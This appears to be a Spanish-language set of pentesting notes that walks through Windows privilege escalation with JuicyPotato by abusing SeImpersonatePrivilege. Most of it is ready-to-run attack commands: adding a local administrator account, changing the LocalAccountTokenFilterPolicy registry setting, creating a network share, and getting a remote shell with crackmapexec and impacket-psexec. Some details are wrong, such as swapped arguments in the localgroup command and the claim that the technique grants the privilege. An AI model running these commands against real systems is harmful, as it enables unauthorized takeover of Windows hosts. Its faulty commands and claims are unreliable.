 -----------

# SeImpersonatePrivilege 

El privilegio SeImpersonatePrivilege es un privilegio de Windows que permite a un proceso tomar la identidad de otro usuario o cuenta de servicio. Este privilegio es utilizado por los servicios de Windows y otros procesos para llevar a cabo tareas en nombre de un usuario o cuenta de servicio específica, incluso si el proceso que las ejecuta tiene un nivel de privilegio más bajo.

----
# Juicy Potato 

JuicyPotato es una técnica utilizada en el ámbito de la seguridad informática para aprovechar ciertas vulnerabilidades y lograr una escalada de privilegios en sistemas Windows. JuicyPotato se basa en una debilidad en la forma en que Windows maneja los nombres de objetos COM (Component Object Model). Permite a un atacante obtener el privilegio **SeImpersonatePrivilege** para ejecutar código malicioso con los privilegios elevados asociados a dicho privilegio
Para elevar privilegios abusando del privilegio **SeImpersonatePrivilege** haciendo uso de la técnica **Juicy Potato**, podríamos descargarnos el binario encargado de explotar esta vulnerabilidad como [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/tag/v0.1) o [JuicyPotatoNG](https://github.com/antonioCoco/JuicyPotatoNG/releases/tag/v1.1)
En ambos, al traspasarlo a la máquina victima y ejecutarlo, podríamos realizar acciones privilegiadas y ejecutar comandos como el user Administrator.

```powershell
> .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c whoami"
```
En este ejemplo solo estamos ejecutando el comando **whoami**, pero podríamos hacer uso de esto para tener completo acceso al sistema: 

Agregamos el usuario y su contraseña al sistema

```powershell
> .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net user {name} {password} /add" -l 1337
```

Agregamos el usuario creado al grupo **Administrators**

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net localgroup {name} Administrators /add" -l 1337
```

En este punto podríamos verificar con herramientas como **crackmapexec** si ya tenemos acceso al sistema siendo administradores: 

```bash
crackmapexec smb {target_ip} -u '{name}' -p '{password}'
```

En caso de ver un **(Pwned!)** podríamos conectarnos de manera remota con el máximo de privilegios, en caso de que no, aveces suele ser necesario retocar un componente de un registro (**LocalAccountTokenFilterPolicy**)

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
# reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

Por lo que ahora si volvemos a validar con **crackmapexec** veríamos el *(Pwned!)* y podríamos conectarnos con **impacket-psexec** proporcionando el usuario que hemos creado y la contraseña.

```bash
impacket-psexec WORGROUP\{name}@{target_ip} cmd.exe
```

#### IMPORTANTE: 

Es importante a tener en cuenta que a la hora de ejecutar este comando lo que se está intentando realizar es subir un binario malicioso en un recurso compartido a nivel de red en el cual tengamos permisos de escritura, en caso de no existir uno, podría ser necesario adicionalmente crear uno. 

```powershell
>  .\JuicyPotato.exe -t * -p "C:\Windows\System32\cmd.exe" -a "/c net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL" -l 1337
```